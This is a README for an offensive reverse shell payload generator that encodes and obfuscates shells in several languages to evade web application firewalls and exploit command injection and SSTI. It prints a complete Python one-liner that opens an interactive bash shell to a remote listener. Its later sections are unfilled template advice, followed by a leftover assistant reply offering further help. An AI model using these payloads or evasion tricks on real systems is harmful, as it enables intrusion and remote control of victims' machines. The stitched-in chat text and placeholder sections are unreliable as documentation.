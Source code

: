 ### **What Is It?**
**Omni-Reverse-Payload-Generator** Is a versatile and powerful tool that enables security professionals to quickly generate reverse shell payloads offline using various programming languages and shells. What sets this tool apart is its ability to seamlessly integrate multiple advanced encoding techniques directly within the generated output, allowing payloads to be pre-encoded with layers of obfuscation to effectively bypass security measures like Web Application Firewalls (WAFs).

### **Key Features**
- **Multiple Reverse Payload Generation**: Quickly generate payloads for various environments, including Bash, Netcat, Perl, Python, PowerShell, and MSSQL, ensuring compatibility with different target systems.
- **Environment Testing**: Generate commands to identify and test shell environments, such as PowerShell/CMD (Windows) and Bash/Sh (Unix/Linux), to verify which shell the target supports.
- **Advanced Encoding Options**: Utilize encoding techniques like URL encoding, Base64, and Internal Field Separator (IFS) manipulation to obfuscate payloads and bypass WAFs.
- **Customization and Flexibility**: Customize payloads with options to modify shell behavior, encoding, and injection methods tailored for specific vulnerabilities like SSTI and command injection.

### **Installation**
```bash
git clone https://github.com/loganpkinfosec/omni-reverse-payload-generator/
cd omni-reverse-payload-generator
chmod +x *
```

### **Usage**

```bash
# Basic Usage Format
python3 Omni-Payload-Generator.py <payload_type> <LHOST> <LPORT> [options]

# Example Commands
python3 Omni-Payload-Generator.py -ps 10.10.14.20 443       # Generate PowerShell reverse shell
python3 Omni-Payload-Generator.py -b 10.10.14.20 443 -e     # Generate Bash reverse shell with URL encoding
python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection  # Generate Python 3 reverse shell with IFS manipulation for command injection
python3 Omni-Payload-Generator.py -y 10.10.14.20 443 -ifs ssti -e  # Python reverse shell for SSTI with URL encoding
```

### **Command Options/Swiches**
- `-b, --bash`: Generates a Bash reverse shell command.
- `-n, --netcat`: Generates a Netcat reverse shell command.
- `-p, --perl`: Generates a Perl reverse shell command.
- `-y, --python`: Generates a Python reverse shell command.
- `-y3, --python3`: Generates a Python 3 reverse shell command.
- `-ps, --powershell`: Generates a PowerShell reverse shell command in Base64.
- `-e, --urlencode`: URL encodes the generated reverse shell command.
- `-ifs, --use-ifs`: Uses IFS manipulation (`injection` or `ssti`) to replace spaces, enhancing payload delivery in specific scenarios.


**Example: Generating a Python3 Shell with IFS Manipulation**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection
Output: python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.20",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/bash","-i"]);'
```

### **7. Screenshots or Diagrams**
Include screenshots of the tool in action or diagrams showing the flow of payload generation. Visual aids help users quickly grasp the tool's functionality.

### **8. Common Issues and Troubleshooting**
Add a section that covers common issues users might face and how to resolve them. Examples might include permission errors, encoding issues, or incorrect usage of flags.

### **9. Contribution Guidelines**
Encourage contributions from the community by outlining how others can contribute, report bugs, or suggest features.

### **10. License and Acknowledgments**
Clearly state the licensing of your tool and acknowledge any inspirations or dependencies.

---

**Enhancements Summary:**
- **Structuring**: The documentation is organized into sections, making it easy for users to navigate and find information quickly.
- **Clarity**: Detailed explanations for each command and flag, supplemented by example commands and outputs.
- **Visuals**: Including screenshots or diagrams can further clarify the tool’s usage.
- **Troubleshooting**: Providing a section for common problems will improve user experience and reduce confusion.

Would you like help creating screenshots, diagrams, or further refining any of these sections?
